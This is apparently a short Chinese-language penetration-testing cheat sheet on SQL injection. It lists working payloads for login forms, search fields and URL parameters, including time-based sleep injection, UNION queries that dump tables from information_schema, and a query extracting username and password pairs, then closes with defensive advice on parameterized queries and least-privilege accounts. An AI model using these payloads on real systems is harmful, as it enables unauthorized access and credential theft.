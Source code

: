 ## Security


### Sql Injection 渗透测试

1、登录框（一般不存在）
```
admin'-- -
' or 1=1 #
```

2、模糊查询输入框（因多条件，开发很容易使用动态拼接sql来组装查询语句）
```
%') and sleep(1);-- -
%') and sleep(1); #
```

3、URL表达式(?id=123)
```
' or '1' = 1'
可以更进一步猜表名
'or 1=(select count(*) from job) #
```

4、在列表页面可以爆表（通过联合查询回显）
```
union select table_name from information_schema.tables
```

同理可爆字段、数据库用户信息

常用渗透语句
```
select schema_name from information_schema.schemata
select column_name from information_schema.columns where table_name='users'
select group_concat(username,':',password) from users
```

`sleep(1)`也就是每条记录sleep1秒


### Sql Injection 注意事项

1. 永远不要使用动态拼装sql，可以使用参数化的sql
2. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接
3. 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息
